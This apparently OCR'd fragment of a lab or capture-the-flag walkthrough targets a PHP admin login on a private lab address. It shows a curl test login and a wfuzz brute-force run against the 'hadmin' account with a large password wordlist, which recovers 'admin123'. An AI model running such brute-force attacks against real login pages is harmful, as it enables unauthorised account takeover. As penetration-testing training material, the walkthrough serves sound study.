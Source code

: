 ```
HTTP/1.1 200 OK ←
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 04 Oct 2024 18:13:15 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1 ←

3 ←
```

`curl "http://192.168.56.127/admin/ajax.php?action=login" -d "username=hadmin&password=TEST" -v`:
```
*   Trying 192.168.56.127:80...
* Connected to 192.168.56.127 (192.168.56.127) port 80
> POST /admin/ajax.php?action=login HTTP/1.1
> Host: 192.168.56.127
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 29 bytes
< HTTP/1.1 200 OK ←
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 07 Oct 2024 13:50:53 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=hdejukjf5n51ln4dpptu9utj33; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 192.168.56.127 left intact
3 ←
```

`wfuzz -u "http://192.168.56.127/admin/ajax.php?action=login" -d "username=hadmin&password=FUZZ" -z file,/usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords.txt -c -v -t 30 --hs "3"`:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.127/admin/ajax.php?action=login
Total requests: 5189454

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload                                     
====================================================================================================================================================

000073831:   784.633s     200        0 L        1 W      1 Ch        nginx/1.18.0 (Ubuntu)                                             "admin123" ←

[...]
```
